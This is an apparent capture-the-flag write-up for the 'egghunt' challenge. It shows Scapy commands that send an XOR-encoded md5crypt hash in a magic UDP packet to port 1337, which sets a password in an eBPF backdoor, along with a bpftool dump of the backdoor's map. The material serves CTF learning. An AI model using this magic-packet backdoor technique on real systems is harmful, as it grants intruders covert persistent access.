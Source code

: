 xor with 66
```
-> 35 36 37 0c 1b 0b 27 00 66 00 2d 70 7a 04 7a 73 70 31 71 6d 03 2a 1a 15 18 15 0b 21 31 2d 6c
https://gchq.github.io/CyberChef/#recipe=XOR(%7B'option':'Decimal','string':'66'%7D,'Standard',false)To_Hex('Space',0)&input=d3R1TllJZUIkQm8yOEY4MTJzMy9BaFhXWldJY3NvLg
```
31 bytes to add after fsf in udp data

```
p = IP(dst="127.0.0.1")/UDP(dport=1337, len=0x2a)/Raw("fsf"+"\x35\x36\x37\x0c\x1b\x0b\x27\x00\x66\x00\x2d\x70\x7a\x04\x7a\x73\x70\x31\x71\x6d\x03\x2a\x1a\x15\x18\x15\x0b\x21\x31\x2d\x6c")

>>> p = IP(dst="127.0.0.1")/UDP(dport=1337, len=0x2a)/Raw("fsf"+"\x35\x36\x37\x0
...: c\x1b\x0b\x27\x00\x66\x00\x2d\x70\x7a\x04\x7a\x73\x70\x31\x71\x6d\x03\x2a\x
...: 1a\x15\x18\x15\x0b\x21\x31\x2d\x6c")
>>> send(p)
.
Sent 1 packets.
```

```
root@egghunt:/proc/974/fd# bpftool -p map dump id 4
[{
        "key": ["0x00","0x00","0x00","0x00"
        ],
        "value": ["0x01","0x24","0x31","0x24","0x77","0x74","0x75","0x4e","0x59","0x49","0x65","0x42","0x24","0x42","0x6f","0x32","0x38","0x46","0x38","0x31","0x32","0x73","0x33","0x2f","0x41","0x68","0x58","0x57","0x5a","0x57","0x49","0x63","0x73","0x6f","0x2e","0x00"
        ],
        "formatted": {
            "value": {
                ".bss": [{
                        "backdoor": {
                            "enabled": true,
                            "hash": "$1$wtuNYIeB$Bo28F812s3/AhXWZWIcso."
                        }
                    }
                ]
            }
        }
    }
]
```

## Now it's Flag Time!
Send the magic packet to put hash for md5crypt password of **pass** into bpf backdoor.
```
>>> p = IP(dst="egghunt.challenges.adversary.zone")/UDP(dport=1337, len=0x2a)/Raw("fsf"+"\x35\x36\x37\x0c\x1b\x0b\x27\x00\x66\x00\x2d\x70\x7a\x04\x7a\x73\x70\x31\x71\x6d\x03\x2a\x1a\x15\x18\x15\x0b\x21\x31
...: \x2d\x6c")
>>> p
<IP  frag=0 proto=udp dst=Net('egghunt.challenges.adversary.zone') |<UDP  dport=1337 len=42 |<Raw  load="fsf567\x0c\x1b\x0b'\x00f\x00-pz\x04zsp1qm\x03*\x1a\x15\x18\x15\x0b!1-l" |>>>
>>> send(p)
.
Sent 1 packets.
```
